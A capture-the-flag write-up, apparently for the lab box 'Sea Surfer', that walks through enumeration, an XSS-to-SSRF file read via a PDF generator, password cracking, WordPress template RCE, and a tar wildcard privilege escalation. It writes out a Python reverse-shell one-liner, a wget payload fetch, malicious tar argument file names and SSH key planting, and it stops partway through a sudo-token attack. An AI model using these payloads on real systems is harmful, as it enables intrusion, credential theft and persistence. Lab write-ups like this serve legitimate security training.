

# Sea Surfer

## Enumeration

### port scan

```
# Nmap 7.80 scan initiated Fri Jul 15 00:10:13 2022 as: nmap -sS -T4 -Pn -n --min-rate=1000 -oA ports -e tun0 -p- 10.10.221.9
Nmap scan report for 10.10.221.9
Host is up (0.079s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### service scan

```
# Nmap 7.80 scan initiated Fri Jul 15 00:11:33 2022 as: nmap -sV -T4 -Pn -n --min-rate=1000 -p22,80 -oA services -e tun0 --script safe 10.10.221.9
Pre-scan script results:
|_broadcast-ataoe-discover: ERROR: Script execution failed (use -d to debug)
|_broadcast-igmp-discovery: ERROR: Script execution failed (use -d to debug)
|_broadcast-pim-discovery: ERROR: Script execution failed (use -d to debug)
|_broadcast-ping: false
|_eap-info: ERROR: Script execution failed (use -d to debug)
|_lltd-discovery: false
|_mrinfo: ERROR: Script execution failed (use -d to debug)
| targets-asn: 
|_  targets-asn.asn is a mandatory parameter
| targets-sniffer: Sniffed 5 address(es). 
| 239.255.255.253
| 224.0.0.251
| 239.255.255.250
| 224.0.0.9
|_224.0.23.12
Nmap scan report for 10.10.221.9
Host is up (0.078s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
|_banner: SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.4
| ssh2-enum-algos: 
|   kex_algorithms: (9)
|   server_host_key_algorithms: (5)
|   encryption_algorithms: (6)
|   mac_algorithms: (10)
|_  compression_algorithms: (2)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-comments-displayer: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.221.9
|     
|     Path: http://10.10.221.9:80/
|     Line number: 201
|     Comment: 
|         <!--      <div class="table_of_contents floating_element">
|                 <div class="section_header section_header_grey">
|                   TABLE OF CONTENTS
|                 </div>
|                 <div class="table_of_contents_item floating_element">
|                   <a href="#about">About</a>
|                 </div>
|                 <div class="table_of_contents_item floating_element">
|                   <a href="#changes">Changes</a>
|                 </div>
|                 <div class="table_of_contents_item floating_element">
|                   <a href="#scope">Scope</a>
|                 </div>
|                 <div class="table_of_contents_item floating_element">
|                   <a href="#files">Config files</a>
|                 </div>
|               </div>
|         -->
|     
|     Path: http://10.10.221.9:80/
|     Line number: 4
|     Comment: 
|         <!--
|             Modified from the Debian original for Ubuntu
|             Last updated: 2016-11-16
|             See: https://launchpad.net/bugs/1288690
|_          -->
|_http-date: Thu, 14 Jul 2022 21:13:06 GMT; -9s from local time.
|_http-fetch: Please enter the complete path of the directory to save data in.
| http-grep: 
|   (1) http://10.10.221.9:80/manual: 
|     (1) ip: 
|_      + 10.10.221.9
| http-headers: 
|   Date: Thu, 14 Jul 2022 21:13:16 GMT
|   Server: Apache/2.4.41 (Ubuntu)
|   Last-Modified: Sun, 17 Apr 2022 18:54:09 GMT
|   ETag: "2aa6-5dcde2b3f2ff9"
|   Accept-Ranges: bytes
|   Content-Length: 10918
|   Vary: Accept-Encoding
|   X-Backend-Server: seasurfer.thm
|   Connection: close
|   Content-Type: text/html
|   
|_  (Request type: HEAD)
|_http-mobileversion-checker: No mobile version detected.
|_http-referer-checker: Couldn't find any cross-domain scripts.
|_http-security-headers: 
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-useragent-tester: 
|   Status for browser useragent: 200
|   Allowed User Agents: 
|     Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
|     libwww
|     lwp-trivial
|     libcurl-agent/1.0
|     PHP/
|     Python-urllib/2.5
|     GT::WWW
|     Snoopy
|     MFC_Tear_Sample
|     HTTP::Lite
|     PHPCrawl
|     URI::Fetch
|     Zend_Http_Client
|     http client
|     PECL::HTTP
|     Wget/1.13.4 (linux-gnu)
|_    WWW-Mechanize/1.34
|_http-xssed: ERROR: Script execution failed (use -d to debug)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -9s
| dns-blacklist: 
|   ATTACK
|     all.bl.blocklist.de - FAIL
|   PROXY
|     misc.dnsbl.sorbs.net - FAIL
|     dnsbl.tornevall.org - FAIL
|     socks.dnsbl.sorbs.net - FAIL
|     http.dnsbl.sorbs.net - FAIL
|     tor.dan.me.uk - FAIL
|   SPAM
|     spam.dnsbl.sorbs.net - FAIL
|     bl.spamcop.net - FAIL
|     l2.apews.org - FAIL
|     sbl.spamhaus.org - FAIL
|     bl.nszones.com - FAIL
|     dnsbl.inps.de - FAIL
|     list.quorum.to - FAIL
|_    all.spamrats.com - FAIL
|_fcrdns: FAIL (No PTR record)
|_ipidseq: All zeros
|_path-mtu: PMTU == 1500
| qscan: 
| PORT  FAMILY  MEAN (us)  STDDEV    LOSS (%)
| 22    0       89771.80   33442.22  0.0%
|_80    0       78103.20   2463.64   0.0%

Post-scan script results:
| reverse-index: 
|   22/tcp: 10.10.221.9
|_  80/tcp: 10.10.221.9
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 15 00:14:31 2022 -- 1 IP address (1 host up) scanned in 178.27 seconds

```

Here, we can spot seasurfer.thm. Add it to /etc/hosts.

### http

```
whatweb http://seasurfer.thm/
http://seasurfer.thm/ [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], Email[wordpress@example.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.2.70], JQuery[3.6.0], MetaGenerator[WordPress 5.9.3], PoweredBy[WordPress], Script, Title[Sea Surfer &#8211; Ride the Wave!], UncommonHeaders[link], WordPress[5.9.3]
```

Wordpress 5.9.3 - no CVE for RCE, so, just move on.

#### dirs bruteforce

```
ffuf -u http://seasurfer.thm/FUZZ -w /usr/share/SecLists/Discovery/Web-Content/big.txt -fw 1

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://seasurfer.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response words: 1
________________________________________________

.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
adminer                 [Status: 301, Size: 316, Words: 20, Lines: 10]

```

We have adminer on seasurfer.thm which allows us to administrate database, but we don't have creds from it as from wordpress.

### vhosts scan

```
ffuf -u http://seasurfer.thm/ -H "Host: FUZZ.seasurfer.thm" -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -fw 3499

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://seasurfer.thm/
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.seasurfer.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response words: 3499
________________________________________________

internal                [Status: 200, Size: 3072, Words: 225, Lines: 109]
```

Add internal.seasurfer.thm to /etc/hosts.

#### dirs bruteforce

```
ffuf -u http://internal.seasurfer.thm/FUZZ -w /usr/share/SecLists/Discovery/Web-Content/big.txt -fw 1 -e .php,.txt,.zip

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://internal.seasurfer.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/big.txt
 :: Extensions       : .php .txt .zip 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response words: 1
________________________________________________

.htpasswd.txt           [Status: 403, Size: 287, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 287, Words: 20, Lines: 10]
.htpasswd.zip           [Status: 403, Size: 287, Words: 20, Lines: 10]
.htaccess.txt           [Status: 403, Size: 287, Words: 20, Lines: 10]
.htaccess.php           [Status: 403, Size: 287, Words: 20, Lines: 10]
.htpasswd.php           [Status: 403, Size: 287, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 287, Words: 20, Lines: 10]
.htaccess.zip           [Status: 403, Size: 287, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 3072, Words: 225, Lines: 109]
invoices                [Status: 301, Size: 335, Words: 20, Lines: 10]
invoice.php             [Status: 200, Size: 4198, Words: 333, Lines: 194]
maintenance             [Status: 301, Size: 338, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 287, Words: 20, Lines: 10]
:: Progress: [81904/81904] :: Job [1/1] :: 490 req/sec :: Duration: [0:02:47] :: Errors: 0 ::

```

## Gaining access

### internal.seasurfer.thm

internal.seasurfer.thm has function to create payment receipts. After you fill the form you'll receive PDF generated by server-side code.

I didn't find some injection vulnerabilty except for XSS with classic payload `<script>document.write(1);</script>`



A littple bit googling gives us this perfect presentation about exploiting SSRF and PDF generators - \
[https://docs.google.com/presentation/d/1JdIjHHPsFSgLbaJcHmMkE904jmwPM4xdhEuwhy2ebvo/htmlpresent](https://docs.google.com/presentation/d/1JdIjHHPsFSgLbaJcHmMkE904jmwPM4xdhEuwhy2ebvo/htmlpresent).

NahamSec explains it like you can use XSS vulnerability to create another opportunity for SSRF to your malicious server. This is interesting case. Let's try it.

I already changed payload to \<iframe> and added in source my python server - `<iframe src=http://<ip-address>:8888/hello></iframe>`. Checked my python server:

```
python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.2.70 - - [15/Aug/2022 22:13:49] code 404, message File not found
10.10.2.70 - - [15/Aug/2022 22:13:49] "GET /hello HTTP/1.1" 404 -
```

So, we have this case: server received XSS, next server-code which generates PDF triggered it and XSS performed a HTTP request to my server. Perfect. But what to do further?\
You can check what generator is used with pdfinfo tool:

```
pdfinfo ~/Downloads/15082022-lbJhTcwuHeh32kHs0pOB.pdf 
Title:           Receipt
Creator:         wkhtmltopdf 0.12.5
Producer:        Qt 4.8.7
CreationDate:    Mon Aug 15 22:15:03 2022 MSK
Custom Metadata: no
Metadata Stream: no
Tagged:          no
UserProperties:  no
Suspects:        no
Form:            none
JavaScript:      no
Pages:           1
Encrypted:       no
Page size:       595 x 842 pts (A4)
Page rot:        0
File size:       53361 bytes
Optimized:       no
PDF version:     1.4
```

Thus, PDF generator is wkhtmltopdf 0.12.5. Google about it...\
Again beautiful article about how to exploit this generator and SSRF - [http://hassankhanyusufzai.com/SSRF-to-LFI/](http://hassankhanyusufzai.com/SSRF-to-LFI/).

Dude created php file and hosted on his server to which XSS will perform HTTP request. This php code will redirect target back-end to something in internal network or just to read some file on server. PHP file : `<?php header('location' . $_GET['path']); ?>`

Now, we need actually to switch our python3 http server on something that can execute PHP code.\
&#x20;A little bit payload modification: `<iframe width=300 height=300 src=http://<ip-address>:8888/ssrf.php?path=file:///etc/passwd`.

.png>)

Great, we read /etc/passwd.&#x20;

### Arbitrary File Read

As we have Wordpress, it's actually predictable for server to have wp-config.php with DB credentials. Let's check where is it.\


.png>)

It didn't show anything about wordpress. Okay, go another way. Probably server has wordpress folder somewhere and maybe it's actually wordpress named folder itself. A little bit bruteforcing gives a result. /var/www/wordpress/wp-config.php.\


.png>)

### Password cracking

Next step is login to adminer and take wordpress user hash. For which user will we take a hash? You can enumerate it on a first page - kyle - or with wpscan. Something like `wpscan --url http://seasurfer.thm/ --enumerate u`.

Use hashcat to crack the hash:

```
hashcat -h | grep phpass
    400 | phpass                                              | Generic KDF
hashcat -a 0 -m 400 kyle.hash /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt
...
...
...
```

Has kyle's password.

### Wordpress RCE

Login to wordpress and then it's simple exploitation to gain RCE via 404.php template of theme - [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress#panel-rce](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress#panel-rce).

After modifying 404.php go to [http://seasurfer.thm/wp-content/themes/twentyseventeen/404.php](http://seasurfer.thm/wp-content/themes/twentyseventeen/404.php) and receive a reverse shell.

```
nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.2.70 50442
Linux seasurfer 5.4.0-107-generic #121-Ubuntu SMP Thu Mar 24 16:04:27 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 19:42:58 up 53 min,  1 user,  load average: 0.04, 0.03, 0.59
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@seasurfer:/$ export TERM=xterm
export TERM=xterm
www-data@seasurfer:/$ export SHELL=/bin/bash
export SHELL=/bin/bash
www-data@seasurfer:/$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                                                                                                                                                   
┌──(user㉿host)-[~/thm/sea_surfer]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 4444

www-data@seasurfer:/$
```

Now, we have fully interactive shell with shell history and auto-complition ;)

## Privilege escalation

### kyle

There is one folder `maintenance/` to which we didn't have access to from web, but now we can see what's inside.

```
www-data@seasurfer:/var/www/internal/maintenance$ ls -al
total 12
drwxrwxr-x 2 kyle     kyle     4096 Apr 19 15:24 .
drwxrwxrwx 4 www-data www-data 4096 Apr 20 10:53 ..
-rwxrwxr-x 1 kyle     kyle      286 Apr 19 15:13 backup.sh
www-data@seasurfer:/var/www/internal/maintenance$ cat backup.sh 
#!/bin/bash

# Brandon complained about losing _one_ receipt when we had 5 minutes of downtime, set this to run every minute now >:D
# Still need to come up with a better backup system, perhaps a cloud provider?

cd /var/www/internal/invoices
tar -zcf /home/kyle/backups/invoices.tgz *

```

well, backup.sh. It runs in cron 100%, but let's check it with pspy.&#x20;

```
pspy64              100%[===================>]   2.94M  2.92MB/s    in 1.0s    

2022-08-15 19:47:27 (2.92 MB/s) - ‘pspy64’ saved [3078592/3078592]

www-data@seasurfer:/tmp$ chmod +x pspy64 
www-data@seasurfer:/tmp$ ./pspy64 
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
```

And we see that backup.sh executes tar command with asterix which is vulnerable.

```
2022/08/15 19:48:01 CMD: UID=0    PID=51305  | /usr/sbin/CRON -f 
2022/08/15 19:48:01 CMD: UID=0    PID=51304  | /usr/sbin/CRON -f 
2022/08/15 19:48:01 CMD: UID=1000 PID=51308  | tar -zcf /home/kyle/backups/invoices.tgz 15082022-Ain1I9A2NXwInad4ERNn.pdf 15082022-AjK4hPnVGMFZ4hhN4NSf.pdf 15082022-BxeRph3dXKSx1LlQCSLr.pdf 15082022-DoVcdTzWD5B9eGVGlW0W.pdf 15082022-DTZ1NAwap2F4LocHf3WW.pdf 15082022-gqyhTtave0wn8otRJ9Vi.pdf 15082022-H5bpwT5GsrZdlAIxc36u.pdf 15082022-lbJhTcwuHeh32kHs0pOB.pdf 15082022-qTt1Xl2wQpeZFR85xpDc.pdf 15082022-rOJ4ZampV4HGMsah95l6.pdf 15082022-VcT2uo31DQcrvpCgIcj9.pdf 15082022-WBIyrN28cWOoYfAoPZVZ.pdf 15082022-WScCqk4Cq43M4xTAn0F6.pdf 18042022-lUIvPaOVZIJQarZO7wHP.pdf 18042022-SZEAfjkefOWOLzNG0nBF.pdf 18042022-x7nvKzdxwDPtGvg3hexH.pdf 19042022-P8SghZ3qVclByyfsSm4c.pdf 19042022-RuQkG8SZaxQc6vyw7BCv.pdf 22042022-NNod4XQ0usiYmPZOVASm.pdf 
2022/08/15 19:48:01 CMD: UID=1000 PID=51307  | tar -zcf /home/kyle/backups/invoices.tgz 15082022-Ain1I9A2NXwInad4ERNn.pdf 15082022-AjK4hPnVGMFZ4hhN4NSf.pdf 15082022-BxeRph3dXKSx1LlQCSLr.pdf 15082022-DoVcdTzWD5B9eGVGlW0W.pdf 15082022-DTZ1NAwap2F4LocHf3WW.pdf 15082022-gqyhTtave0wn8otRJ9Vi.pdf 15082022-H5bpwT5GsrZdlAIxc36u.pdf 15082022-lbJhTcwuHeh32kHs0pOB.pdf 15082022-qTt1Xl2wQpeZFR85xpDc.pdf 15082022-rOJ4ZampV4HGMsah95l6.pdf 15082022-VcT2uo31DQcrvpCgIcj9.pdf 15082022-WBIyrN28cWOoYfAoPZVZ.pdf 15082022-WScCqk4Cq43M4xTAn0F6.pdf 18042022-lUIvPaOVZIJQarZO7wHP.pdf 18042022-SZEAfjkefOWOLzNG0nBF.pdf 18042022-x7nvKzdxwDPtGvg3hexH.pdf 19042022-P8SghZ3qVclByyfsSm4c.pdf 19042022-RuQkG8SZaxQc6vyw7BCv.pdf 22042022-NNod4XQ0usiYmPZOVASm.pdf 
2022/08/15 19:48:01 CMD: UID=1000 PID=51306  | /bin/bash /var/www/internal/maintenance/backup.sh 
2022/08/15 19:48:01 CMD: UID=1000 PID=51309  | /bin/sh -c gzip 
2022/08/15 19:48:05 CMD: UID=0    PID=51310  | ps -e -o pid,ppid,state,command
```

Cheat sheet - [https://gtfobins.github.io/gtfobins/tar/#sudo](https://gtfobins.github.io/gtfobins/tar/#sudo).

Simple script to automate exploitation:

```
#!/bin/bash

echo '' > '--checkpoint=1'
echo '' > '--checkpoint-action=exec=/bin/cat shell.sh | bash' 
wget <ip-address>:8888/shell.sh
```

shell.sh:               &#x20;

```
#!/bin/bash

python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip-address>",5555));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

```

```
wget <ip-address>:8888/get_kyle.sh 
--2022-08-15 19:51:28--  http://<ip-address>:8888/get_kyle.sh
Connecting to <ip-address>:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 129 [text/x-sh]
Saving to: ‘get_kyle.sh’

get_kyle.sh         100%[===================>]     129  --.-KB/s    in 0s      

2022-08-15 19:51:28 (19.1 MB/s) - ‘get_kyle.sh’ saved [129/129]

www-data@seasurfer:/var/www/internal/invoices$ chmod +x get_kyle.sh 
www-data@seasurfer:/var/www/internal/invoices$ ./get_kyle.sh 
--2022-08-15 19:53:25--  http://<ip-address>/shell.sh
Connecting to <ip-address>:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 218 [text/x-sh]
Saving to: ‘shell.sh’

shell.sh            100%[===================>]     218  --.-KB/s    in 0s      

2022-08-15 19:53:25 (31.6 MB/s) - ‘shell.sh’ saved [218/218]

www-data@seasurfer:/var/www/internal/invoices$
```

And we got shell as kyle:

```
2022/08/15 20:03:01 CMD: UID=1000 PID=51531  | /bin/bash /var/www/internal/maintenance/backup.sh 
2022/08/15 20:03:01 CMD: UID=1000 PID=51530  | /bin/bash /var/www/internal/maintenance/backup.sh 
2022/08/15 20:03:01 CMD: UID=1000 PID=51533  | tar -zcf /home/kyle/backups/invoices.tgz 15082022-Ain1I9A2NXwInad4ERNn.pdf 15082022-AjK4hPnVGMFZ4hhN4NSf.pdf 15082022-BxeRph3dXKSx1LlQCSLr.pdf 15082022-DoVcdTzWD5B9
eGVGlW0W.pdf 15082022-DTZ1NAwap2F4LocHf3WW.pdf 15082022-gqyhTtave0wn8otRJ9Vi.pdf 15082022-H5bpwT5GsrZdlAIxc36u.pdf 15082022-lbJhTcwuHeh32kHs0pOB.pdf 15082022-qTt1Xl2wQpeZFR85xpDc.pdf 15082022-rOJ4ZampV4HGMsah95l
6.pdf 15082022-VcT2uo31DQcrvpCgIcj9.pdf 15082022-WBIyrN28cWOoYfAoPZVZ.pdf 15082022-WScCqk4Cq43M4xTAn0F6.pdf 18042022-lUIvPaOVZIJQarZO7wHP.pdf 18042022-SZEAfjkefOWOLzNG0nBF.pdf 18042022-x7nvKzdxwDPtGvg3hexH.pdf 1
9042022-P8SghZ3qVclByyfsSm4c.pdf 19042022-RuQkG8SZaxQc6vyw7BCv.pdf 22042022-NNod4XQ0usiYmPZOVASm.pdf --checkpoint=1 --checkpoint-action=exec=cat shell.sh | bash get_kyle.sh shell.sh 
2022/08/15 20:03:01 CMD: UID=1000 PID=51532  | tar -zcf /home/kyle/backups/invoices.tgz 15082022-Ain1I9A2NXwInad4ERNn.pdf 15082022-AjK4hPnVGMFZ4hhN4NSf.pdf 15082022-BxeRph3dXKSx1LlQCSLr.pdf 15082022-DoVcdTzWD5B9
eGVGlW0W.pdf 15082022-DTZ1NAwap2F4LocHf3WW.pdf 15082022-gqyhTtave0wn8otRJ9Vi.pdf 15082022-H5bpwT5GsrZdlAIxc36u.pdf 15082022-lbJhTcwuHeh32kHs0pOB.pdf 15082022-qTt1Xl2wQpeZFR85xpDc.pdf 15082022-rOJ4ZampV4HGMsah95l
6.pdf 15082022-VcT2uo31DQcrvpCgIcj9.pdf 15082022-WBIyrN28cWOoYfAoPZVZ.pdf 15082022-WScCqk4Cq43M4xTAn0F6.pdf 18042022-lUIvPaOVZIJQarZO7wHP.pdf 18042022-SZEAfjkefOWOLzNG0nBF.pdf 18042022-x7nvKzdxwDPtGvg3hexH.pdf 1
9042022-P8SghZ3qVclByyfsSm4c.pdf 19042022-RuQkG8SZaxQc6vyw7BCv.pdf 22042022-NNod4XQ0usiYmPZOVASm.pdf --checkpoint=1 --checkpoint-action=exec=cat shell.sh | bash get_kyle.sh shell.sh 
2022/08/15 20:03:01 CMD: UID=1000 PID=51535  | /bin/sh -c cat shell.sh | bash 
2022/08/15 20:03:01 CMD: UID=1000 PID=51534  | /bin/sh -c cat shell.sh | bash 
2022/08/15 20:03:01 CMD: UID=1000 PID=51536  | /bin/sh -c gzip 
2022/08/15 20:03:01 CMD: UID=1000 PID=51537  | python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((
```

```
nc -lvnp 5555
Listening on 0.0.0.0 5555
Connection received on 10.10.2.70 50302
$ whoami
whoami
kyle
```

Now, to easily operate on next step to root let's inject our public ssh key into authorized\_keys of kyle:

```
ssh-keygen     
Generating public/private rsa key pair.
Enter file in which to save the key (<redacted>/.ssh/id_rsa): <redacted>/thm/sea_surfer/id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in <redacted>/sea_surfer/id_rsa
Your public key has been saved in <redacted>/sea_surfer/id_rsa.pub
The key fingerprint is:
SHA256:71LZkiud4BcA2Ezayr4+piwvapIQU/mT4QnvkWnCfLQ appsec-engineer@N00000518
The key's randomart image is:
+---[RSA 3072]----+
|   . =.          |
|  + +o+          |
| + *.B..         |
|o +.E.  .        |
| o =oo  S. +     |
|.  ..   ..* .    |
|..  .  . +.=     |
|=o  o.  +.=      |
|=+++o.   +.      |
+----[SHA256]-----+
```

```
echo 'ssh-rsa <redacted>' > ~/.ssh/authorized_keys
```

### root

```
ssh kyle@seasurfer.thm -i id_rsa 
The authenticity of host 'seasurfer.thm (10.10.2.70)' can't be established.
ED25519 key fingerprint is SHA256:4ChmQCQ0tIG/wbF2YLD8+ZdmJVvA1bFzIRVLwXXrs0g.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'seasurfer.thm' (ED25519) to the list of known hosts.

  ___ ___   _     ___ _   _ ___ ___ ___ ___ 
 / __| __| /_\   / __| | | | _ \ __| __| _ \
 \__ \ _| / _ \  \__ \ |_| |   / _|| _||   /
 |___/___/_/ \_\ |___/\___/|_|_\_| |___|_|_\
                                            

Last login: Mon Aug 15 18:51:03 2022 from 127.0.0.1
kyle@seasurfer:~$ ls -la
```

As usual, linpeas will help next:

```
╔══════════╣ Checking sudo tokens
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#reusing-sudo-tokens
ptrace protection is disabled (0)
gdb wasn't found in PATH, this might still be vulnerable but linpeas won't be able to check it

```

linpeas didn't show as that this is vulnerable case but it is because with pspy64 you can spot some script that is running as kyle with sudo:

```
kyle@seasurfer:~$ ps aux | grep sudo
kyle        1124  0.0  0.1   6892  2300 pts/0    Ss+  18:51   0:00 bash -c sudo /root/admincheck; sleep infinity

```

I have not exploited reusing sudo tokens before, so hacktricks will help - [https://book.hacktricks.xyz/linux-hardening/privilege-escalation#reusing-sudo-tokens](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#reusing-sudo-tokens).

For the vector to work we need some succesfull sudo session(which is our process with pid 1124 above) and gdb. The box doesn't have gdb, so we need to upload it.

Grab the first link in /etc/apt/sources.list:

```
kyle@seasurfer:~/sudo_inject$ cat /etc/apt/sources.list
# See http://help.ubuntu.com/community/UpgradeNotes for how to upgrade to
# newer versions of the distribution.
deb http://fi.archive.ubuntu.com/ubuntu focal main restricted
# deb-src http://fi.archive.ubuntu.com/ubuntu focal main restricted
```

Take this dep package [http://fi.archive.ubuntu.com/ubuntu/pool/main/g/gdb/gdb\_9.2-0ubuntu1\~20.04.1\_amd64.deb](http://fi.archive.ubuntu.com/ubuntu/pool/main/g/gdb/gdb\_9.2-0ubuntu1\~20.04.1\_amd64.deb) because I tried gdb\_12 and it doesn't work properly for privesc.

<pre><code><strong>wget http://fi.archive.ubuntu.com/ubuntu/pool/main/g/gdb/gdb_9.2-0ubuntu1~20.04.1_amd64.deb
</strong><strong>ar x gdb_9.2....dep
</strong>tar xvf data.tar.xz</code></pre>

Now, upload gdb binary to machine and export PATH for it.

```
kyle@seasurfer:~$ ./gdb --version
Python Exception <class 'ModuleNotFoundError'> No module named 'gdb': 
./gdb: warning: 
Could not load the Python gdb module from `/usr/share/gdb/python'.
Limited Python support is available from the _gdb module.
Suggest passing --data-directory=/path/to/gdb/data-directory.
